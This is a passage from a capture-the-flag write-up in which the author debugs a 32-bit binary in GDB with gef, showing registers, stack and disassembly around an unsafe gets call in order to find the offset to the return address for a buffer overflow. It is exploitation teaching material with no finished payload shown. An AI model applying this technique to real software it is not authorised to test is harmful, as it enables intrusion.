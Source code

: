 ```echo``` function print the message with address of ```local_12e``` buffer and then use ```gets``` function.
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤ 

```

Now, Let's run the binary with input ```AAAAAAAA``` and then we can find the offset between the buffer to ```eip``` register:
```asm
gef➤  r
Starting program: /home/evyatar/Desktop/nightmare/pwn3 
Take this, you might need it on your journey 0xffffcfbe!
AAAAAAAA

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcfbe  →  "AAAAAAAA"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7fb55c0  →  0xfbad2288
$edx   : 0xf7fb689c  →  0x00000000
$esp   : 0xffffcfa0  →  0xffffcfbe  →  "AAAAAAAA"
$ebp   : 0xffffd0e8  →  0xffffd0f8  →  0x00000000
$esi   : 0xf7fb5000  →  0x001d4d8c
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfa0│+0x0000: 0xffffcfbe  →  "AAAAAAAA"	 ← $esp
0xffffcfa4│+0x0004: 0xffffcfbe  →  "AAAAAAAA"
0xffffcfa8│+0x0008: 0xffffcfcc  →  0x00000000
0xffffcfac│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcfb0│+0x0010: 0x00000000
0xffffcfb4│+0x0014: 0x00000000
0xffffcfb8│+0x0018: 0x00000000
0xffffcfbc│+0x001c: 0x41410000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped 0x565555da in echo (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
```